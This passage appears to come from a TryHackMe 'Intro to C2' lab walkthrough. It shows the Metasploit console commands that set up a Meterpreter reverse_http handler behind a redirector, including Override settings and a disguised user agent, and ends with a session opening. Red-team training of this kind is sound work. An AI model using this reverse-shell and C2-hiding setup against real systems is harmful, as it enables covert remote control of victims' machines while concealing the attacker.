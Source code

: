 #### Setting Up Exploit/Multi/Handler
To set up Meterpreter properly, we need to make a few modifications; We must set our LHOST argument to the incoming interface that we are expecting connections from, in our lab; this will be 127.0.0.1. In the real world, this will be your public interface that your Redirector will be connecting to (aka your Public IP Address), and the LPORT will be whatever you like. For the lab, we will be using TCP/8080; this can be whatever you like in production. As always, the best practice is to run services over their standard protocols, so HTTP should run on port 80, and HTTPS should run on port 443. These options will also need to be duplicated for ReverseListenerBindAddress and ReverseListenerBindPort.  
Next, we need to set up OverrideLHOST - This value will be your redirector's IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that the HTTP or HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server. Now that you understand what must be configured, let's dive into it:  
```
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500
```
After this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to use multiple hosts and DNS records instead of IP Addresses.   
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_36.png" width="50%" height="50%">  


